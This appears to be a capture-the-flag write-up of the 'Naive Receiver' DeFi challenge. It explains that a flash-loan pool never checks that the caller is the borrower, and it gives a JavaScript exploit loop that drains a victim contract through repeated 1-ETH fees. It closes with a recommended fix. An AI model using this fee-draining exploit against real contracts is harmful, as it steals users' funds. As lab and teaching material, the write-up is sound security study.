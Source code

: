 # Naive-Receiver

## Introduction
The goal is to drain the user tokens.
In this section, flash loan from ***NaiveReceiverLenderPool.sol*** impose a fixed interest rate of 1 ether (Holy jesus)
Therefore, 1 token will be extracted from the user for every flash loan.

## Code Breakdown
Let's start by breaking down the source code into functions.
There are two files - ***FlashLoanReceiver.sol*** and ***NaiveReceiverLenderPool.sol***.
Similiar to the previous challenge, ***NaiveReceiverLenderPool.sol*** will execute function from ***FlashLoanReceiver.sol*** during a flashloan.

Let's look at ***NaiveReceiverLenderPool.sol*** primarily.
Two types of variables are declared at the start - ***Address*** and ***FIXED_FEE***.
```
using Address for address;
uint256 private constant FIXED_FEE = 1 ether; // not the cheapest flash loan
```

The primary function of the smart contract have several items to look at
```
function flashLoan(address borrower, uint256 borrowAmount) external nonReentrant {

    //goal to drain user's contract funds

    uint256 balanceBefore = address(this).balance; 
    require(balanceBefore >= borrowAmount, "Not enough ETH in pool"); 

    require(borrower.isContract(), "Borrower must be a deployed contract"); //can only be called from a different contract
    // Transfer ETH and handle control to receiver
    borrower.functionCallWithValue(
        abi.encodeWithSignature(
            "receiveEther(uint256)",
            FIXED_FEE
        ),
        borrowAmount
    );
    
    require(
        address(this).balance >= balanceBefore + FIXED_FEE,
        "Flash loan hasn't been paid back"
    );
}
```

Unlike the previous challenge, only 1 pool exist now.
***balanceBefore*** is a variable that stores the current number of ethers in the pool prior to a flash loan.
It must be more or equal to ***borrowAmount***.
```require(balanceBefore >= borrowAmount, "Not enough ETH in pool");``` 

Next, borrower must be a deployed contract rather than a user.
```require(borrower.isContract(), "Borrower must be a deployed contract");```

Next, it will execute ***receiverEther(uint256)*** function from ***FlashLoanReceiver.sol***.
```sol
// Transfer ETH and handle control to receiver
borrower.functionCallWithValue(
    abi.encodeWithSignature(
        "receiveEther(uint256)",
        FIXED_FEE
    ),
    borrowAmount
);
```

After executing the function from ***FlashLoanReceiver.sol***, it will check if the borrowed amount is payed along with the fixed fee.
```sol
require(
    address(this).balance >= balanceBefore + FIXED_FEE,
    "Flash loan hasn't been paid back"
);
```

## Hint
This function does not check if the ***msg.sender*** is indeed the borrower.
```sol
function flashLoan(address borrower, uint256 borrowAmount) external nonReentrant
```
Thus, an attacker can insert any valid address and initiate a flash loan causing the victim to pay the fixed fee.

## Solution
The solution is to siphon tokens away from a legitimate user by putting in their address for a flash loan.
By doing so, the smart contract will charge the legitimate user a fixed fee of 1 ETH per flash loan till they run out.
This is the easy solution.
```js
it('Exploit', async function () {
    /** CODE YOUR EXPLOIT HERE */   
    while (true){
        await this.pool.flashLoan(this.receiver.address, 0);
        value = String(await ethers.provider.getBalance(this.receiver.address));
        console.log(value);
        if (value == "0"){
            break;
        }
    }
});
```

## Recommendations
Always check if the sender is the borrower. A simple require statement can be implemented at the start of the flash loan
```require(msg.sender == borrower);```